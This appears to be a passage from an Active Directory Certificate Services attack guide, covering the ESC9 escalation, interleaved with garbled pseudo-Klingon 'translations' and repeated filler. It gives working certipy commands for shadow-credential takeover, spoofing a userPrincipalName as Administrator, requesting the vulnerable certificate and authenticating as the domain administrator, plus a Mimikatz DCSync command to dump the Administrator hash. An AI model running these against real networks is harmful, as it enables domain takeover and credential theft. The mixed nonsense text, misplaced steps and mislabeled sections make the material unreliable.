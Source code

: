 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhut
```bash
certipy shadow auto -username John@corp.local -password Passw0rd! -account Jane
```
Subsequently, `Jane`'s `userPrincipalName` is modified to `Administrator`, purposely omitting the `@corp.local` domain part:

---
qaStaHvIS `Jane`'s `userPrincipalName` `Administrator` laH, `@corp.local` domain part jatlhqa'chugh:
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```
**Translation:**

**This modification does not violate constraints, given that `Administrator@corp.local` remains distinct as `Administrator`'s `userPrincipalName`.**

Following this, the `ESC9` certificate template, marked vulnerable, is requested as `Jane`:
```bash
certipy req -username jane@corp.local -hashes <hash> -ca corp-DC-CA -template ESC9
```
**Translation:**

It's noted that the certificate's `userPrincipalName` reflects `Administrator`, devoid of any “object SID”.

`Jane`'s `userPrincipalName` is then reverted to her original, `Jane@corp.local`:

**Translation (Klingon):**

Qapla'! QaStaHvIS certificate 'ej 'ay' 'e' vItlhutlh 'e' luqta' 'e' `userPrincipalName` 'e' `Administrator`, vItlhutlh "object SID" vItlhutlh.

`Jane`'e' `userPrincipalName` vItlhutlh, `Jane@corp.local`, vItlhutlh:
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```
### Domain Escalation

#### Authentication with Issued Certificate

To authenticate with the issued certificate, use the following command:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:Administrator@corp.local"'
```

This command will yield the NT hash of `Administrator@corp.local`. Remember to include the `-domain <domain>` parameter in the command due to the certificate's lack of domain specification.
```bash
certipy auth -pfx adminitrator.pfx -domain corp.local
```
## Qa'legh Certificate Mappings - ESC10
